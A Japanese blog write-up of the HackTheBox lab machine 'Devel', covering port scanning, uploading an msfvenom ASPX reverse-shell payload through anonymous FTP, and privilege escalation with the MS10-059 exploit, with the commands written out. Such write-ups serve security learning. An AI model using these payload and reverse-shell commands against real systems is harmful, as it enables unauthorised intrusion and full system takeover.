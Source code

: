 ```yaml
---
title: 【Easy/Windows】Devel Writeup(HackTheBox)
date: "2022-07-23"
template: "post"
draft: false
slug: "hackthebox-windows-devel"
category: "HackTheBox"
tags:
  - "HackTheBox"
  - "Windows"
  - "EasyBox"
description: "HackTheBoxのリタイアマシン「Devel」のWriteUpです。"
socialImage: "/media/cards/no-image.png"

---
```


「Hack The Box」という、ペネトレーションテストの学習プラットフォームを利用してセキュリティについて学んでいます。
「Hack The Box」のランクは、本記事執筆時点でProHackerです。

<img src="../../static/media/2022-07-23-hackthebox-devel/327080.png" alt="Hack The Box">

今回は、HackTheBoxのリタイアマシン「Devel」のWriteUpです。

<!-- omit in toc -->
## 本記事について

**本記事の内容は社会秩序に反する行為を推奨することを目的としたものではございません。**

自身の所有する環境、もしくは許可された環境以外への攻撃の試行は、「不正アクセス行為の禁止等に関する法律（不正アクセス禁止法）」に違反する可能性があること、予めご留意ください。

またすべての発言は所属団体ではなく個人に帰属します。

<!-- omit in toc -->
## もくじ
- [探索](#探索)
- [内部探索](#内部探索)
- [権限昇格](#権限昇格)
- [まとめ](#まとめ)

## 探索

とりあえずいつも通りポートスキャンを仕掛けます。

結果、どうやらFTPのAnonymousログインが可能なようです。

``` bash
$ sudo sed -i 's/^[0-9].*targethost.htb/10.10.10.5  targethost.htb/g' /etc/hosts
$ nmap -sV -sC -T4 targethost.htb| tee nmap1.txt
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

また、80番ポートではIISが稼働していました。

![image-20220723114718813](../../static/media/2022-07-23-hackthebox-devel/image-20220723114718813.png)

FTPのAnonymousログインが可能だったので、msvenomで作成したASPのペイロードをWebサーバに埋め込み、リバースシェルを取得しました。

``` bash
$ LHOST=`ip addr | grep -E -o "10.10.([0-9]{1,3}[\.]){1}[0-9]{1,3}"`
$ msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=4444 -o rev.aspx

$ echo open 10.10.10.5 > ftp.txt && echo user anonymous >> ftp.txt && echo binary >> ftp.txt && echo put rev.aspx >> ftp.txt && echo quit >> ftp.txt
$ ftp -n < ftp.txt
```

これでシェルが取得できました。

## 内部探索

シェルが取得できたものの、悲しいことに`iis apppool\web`というよわよわ権限でした。

というわけで、権限昇格の手掛かりを探していきます。

とりあえず端末情報を見てみると、Windows7のマシンであることがわかりました。

![image-20220723203944396](../../static/media/2022-07-23-hackthebox-devel/image-20220723203944396.png)

内部のタスクやファイルを探索したものの使えそうなものはなかったので、端末の脆弱性を探すことにしました。

``` bash
$ python windows-exploit-suggester.py --database 2022-07-23-mssb.xls --systeminfo systeminfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 179 potential bulletins(s) with a database of 137 known exploits
[*] there are now 179 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 7 32-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

## 権限昇格

前項で脆弱性を特定することができました。

とりあえず`wwwroot`配下にはFTPでファイル書き込みが可能なので、刺さりそうなエクスプロイトをいくつか試してみました。

最終的に[MS10-059](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059)のPoCで上手くいきました。

``` bash
# ファイル転送
echo open 10.10.10.5 > ftp.txt && echo user anonymous >> ftp.txt && echo binary >> ftp.txt && echo put MS10-059.exe >> ftp.txt && echo quit >> ftp.txt
ftp -n < ftp.txt

# Exploit
MS10-059.exe 10.10.14.2 9999
```

これでSystem権限を取得できます。

``` bash
c:\inetpub\wwwroot>whoami
whoami
nt authority\system
```

## まとめ

簡単な問題だとさくさく解けるので気持ちいいですね。